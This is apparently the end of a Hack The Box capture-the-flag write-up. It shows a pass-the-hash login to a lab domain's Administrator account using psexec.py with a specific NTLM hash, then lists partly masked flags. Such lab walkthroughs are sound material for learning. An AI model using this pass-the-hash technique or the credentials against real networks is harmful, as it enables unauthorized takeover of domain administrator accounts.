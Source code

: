 #### Pass-the-hash
Now, we just need to perform a **Pass-The-Hash** attack to log in to the Administrator account using **PsExec**. 
PsExec is a **light-weight telnet-replacement** that lets you execute processes on other systems, complete with full interactivity for console applications, without having to manually install client software.

```bash
psexec.py htb.local/Administrator@10.10.10.161 -hashes 'aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6'
``` 

And we own domain Administrator. 

![alt text](<Pasted image 20240107153914.png>)
# Flags
User : 173f....1da636............f8c99d

Root : b2....523934d9..............753aa
# Happy Hacking :)
